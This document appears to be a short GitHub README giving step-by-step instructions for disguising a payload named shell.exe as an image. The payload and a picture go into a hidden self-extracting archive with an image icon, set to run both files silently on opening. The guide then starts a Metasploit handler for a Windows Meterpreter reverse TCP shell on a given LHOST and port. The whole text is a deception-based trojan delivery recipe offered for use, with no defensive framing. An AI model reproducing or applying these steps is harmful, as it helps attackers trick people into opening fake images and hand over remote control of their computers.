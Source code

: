 
## Making our payload to open an Image

	
		Things needed:
		
			-> an image file
			
			-> the actual payload
			
			
			
## Convert the image file to an icon
	
		go to this link
		
		-> https://convertio.co/png-ico/
		
		
		upload the img and convert it to an icon
		
		

## Merging the img and the payload
	
			-> Select both img and the payload 
			
			-> Create archive
			
			-> Archive Format: zip
		
			-> Create SFX archive
			
			-> Change the name
			
			-> Advanced 
			
			-> SFX options
			
			-> Update: extract and update files
			
			-> Overwrite: overwrite all files
			
			-> Text and Icon: Load SFX icon from file
			
			->  Browse
			
			-> find the .ico file
			
			-> Modes: Hide all and tick mark on Unpack to temporary folder
			
			-> Setup: 
					
					-> Run after extraction: 
														car.png
														shell.exe
			-> ok 
			
			-> ok
			
			
			
			
			
## Start the listener

		-> msfconsole
		
		-> use exploit/multi/handler
		
		-> set payload windows/meterpreter/reverse_tcp
		
		-> set LHOST 192.168.10.3
		
		-> set LPORT 5555

		
					
					
